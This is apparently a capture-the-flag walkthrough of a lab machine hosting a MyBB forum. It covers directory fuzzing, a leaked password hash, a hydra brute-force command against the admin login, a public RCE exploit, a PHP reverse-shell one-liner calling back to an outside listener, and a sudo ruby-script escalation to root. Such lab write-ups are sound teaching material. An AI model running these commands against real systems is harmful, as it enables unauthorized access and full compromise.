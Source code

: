 ```yaml
---
sticker: emoji//1f476
---
```


# ENUMERATION


## OPEN PORTS


![](cybersecurity/images/Pasted%2520image%252020241029135137.png)
Seems like we only have a website, let's fuzz it


## FUZZING

### GOBUSTER FUZZ

![](cybersecurity/images/Pasted%2520image%252020241029135218.png)

### SOURCE CODE AND WEBPAGE

Nothing useful, let's see the page:

![](cybersecurity/images/Pasted%2520image%252020241029143334.png)

Let's go to the forum:

![](cybersecurity/images/Pasted%2520image%252020241029143346.png)

We need to add `panel.mybb.dl` to `/etc/hosts` in order to be able to go into the website:

![](cybersecurity/images/Pasted%2520image%252020241029143517.png)

![](cybersecurity/images/Pasted%2520image%252020241029143536.png)
Nice, let's keep enumerating the machine until we find something we can exploit:

![](cybersecurity/images/Pasted%2520image%252020241029143732.png)
We can see we only have the admin user registered, 


![](cybersecurity/images/Pasted%2520image%252020241029143829.png)
Let's fuzz the `http://panel.mybb.dl` website to check if we can find anything:

![](cybersecurity/images/Pasted%2520image%252020241029144434.png)

We found interesting things, directory I like the most is the `/backups` directory, let's fuzz it to check if there's anything in there:

![](cybersecurity/images/Pasted%2520image%252020241029144701.png)

Found `/data` inside of the directory, let's take a look:

![](cybersecurity/images/Pasted%2520image%252020241029144821.png)

In general, SQL queries can be found, and some login attempts, but the most interesting part is the following:

![](cybersecurity/images/Pasted%2520image%252020241029144856.png)

User `alice` attempted to log in using a password, that seems like a hash, let's try to crack it and log into Alice account

![](cybersecurity/images/Pasted%2520image%252020241029145105.png)

We got `alice:tinkerbell` let's attempt to log in:

![](cybersecurity/images/Pasted%2520image%252020241029145142.png)
We cannot get in using those credentials, seems like they were fake, so, why don't we try some bruteforce using the `admin` username, let's capture the request with `burp` and use `hydra` to brute force our login page:


```request
POST /admin/index.php HTTP/1.1

Host: panel.mybb.dl

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 38

Origin: null

Connection: keep-alive

Cookie: mybb[lastvisit]=1730230425; mybb[lastactive]=1730230863; sid=df2321f0ff06ec973eb0f4cbfc38c6de

Upgrade-Insecure-Requests: 1

Priority: u=0, i



username=admin&password=admin&do=login
```

So, we got a post request, let's brute force:

```ad-hint

##### HYDRA COMMAND

`hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^&do=login:F=Login Failed"`

![](cybersecurity/images/Pasted%2520image%252020241029150240.png)



```

So, we got plenty amount of passwords, after trying every single one of them, correct credentials were: `admin`:`babygirl`, let's log in and proceed with exploitation:

![](cybersecurity/images/Pasted%2520image%252020241029150737.png)



# EXPLOITATION


First, we can see we are running `myBB 1.8.35` let's search for any exploit in this version:

![](cybersecurity/images/Pasted%2520image%252020241029150932.png)
We found this [exploit](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE), let's download it and use it:

![](cybersecurity/images/Pasted%2520image%252020241029151057.png)
So, we need to put this:

```ad-hint

# PYTHON COMMAND:

python3 exploit.py http://panel.mybb.dl admin babygirl

##### OUTPUT

![](cybersecurity/images/Pasted%2520image%252020241029151225.png)

We got RCE!
```

With the RCE from the exploit, we can get a [[CYBERSECURITY/REVERSE SHELLS/MOST COMMON REVERSE SHELLS.md|reverse shell]]:

```ad-note

# USED SHELL

php:  `php -r '$sock=fsockopen("192.168.200.136",4444);shell_exec("bash <&3 >&3 2>&3");'`

# CONNECTION RECEIVED

![](cybersecurity/images/Pasted%2520image%252020241029151456.png)

```

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize our shell]]:

![](cybersecurity/images/Pasted%2520image%252020241029151553.png)

With our new stable shell, we can begin with [[CYBERSECURITY/LINUX/LINUX PRIVILEGE ESCALATION/BASIC PRIVESC IN LINUX.md|PRIVESC]]

# PRIVILEGE ESCALATION



At home directory, we can find our previous user `alice`, let's switch users:

![](cybersecurity/images/Pasted%2520image%252020241029151851.png)

Nice, we were able to switch to alice, let's use `sudo -l` to get root access:


## SUDO -L


![](cybersecurity/images/Pasted%2520image%252020241029151944.png)
Pretty weird, let's take a look at that:

It is a ruby script, since we can execute any ruby script as root without the need of a password, we can do the following:

```ad-hint

`echo 'exec "/bin/bash"' > /home/alice/scripts/root.rb`
`chmod +x root.rb`

`sudo /home/alice/scripts/root.rb`

# OUTPUT

![](cybersecurity/images/Pasted%2520image%252020241029152250.png)


```

And just like that, the CTF is done!